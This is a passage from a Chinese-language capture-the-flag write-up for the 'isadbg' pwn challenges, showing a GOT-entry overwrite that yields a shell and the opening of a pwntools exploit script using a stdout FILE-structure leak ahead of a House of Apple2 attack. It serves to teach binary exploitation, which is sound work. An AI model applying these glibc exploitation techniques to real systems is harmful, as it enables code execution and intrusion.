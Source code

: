 	[ins] In [10]: hex(libc_base + libc.sym.system)
	Out[10]: '0x7fea62a50d70'
	```

	- 劫持 got 表项完成利用：
	```bash
	isadbg> set 0x5559a9e81058 0x7fea62a50d70
	isadbg> subscribe
	Select your subscription plan:
	        1. Yearly
	        2. Monthly
	sh;
	sh-5.2$
	```

完整利用截图如下：

![[wp-infosec2024-2.png]]

---
## isadbg 免费版

这道题有两个考查点：

1. IO leak
2. 在新版本 libc 下拥有了**全局任意读写**能力后怎么 getshell

第一步的 IO leak 需要爆破 $\frac{1}{16}$ 的概率，第二步则非常自由，可以再次使用 IO leak 去泄漏 libc 中 environ 变量的内容得到栈地址，回到栈上进行 ROP。或者可以用 IO 相关的攻击，下面演示了 House of Apple2 的利用：

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
#   expBy : @eastXueLian
#   Debug : ./exp.py debug  ./pwn -t -b b+0xabcd
#   Remote: ./exp.py remote ./pwn ip:port

from lianpwn import *
from pwncli import *

cli_script()
set_remote_libc(
    "/home/eastxuelian/config/glibc-all-in-one/libs/2.35-0ubuntu3.6_amd64/libc.so.6"
)

io: tube = gift.io
elf: ELF = gift.elf
libc: ELF = gift.libc


def cmd(data):
    ru(b"> ")
    sl(data)


def send_payload(base, payload):
    cmd(b"set " + hex(base).encode())
    ru(b"Send your data:\n")
    s(payload)


luckybit = __import__("random").randint(1, 15)

send_payload(0x404020, flat([0xFBAD1887, 0, 0, 0]) + p16(0x700 | (luckybit << 12)))
rn(8)
```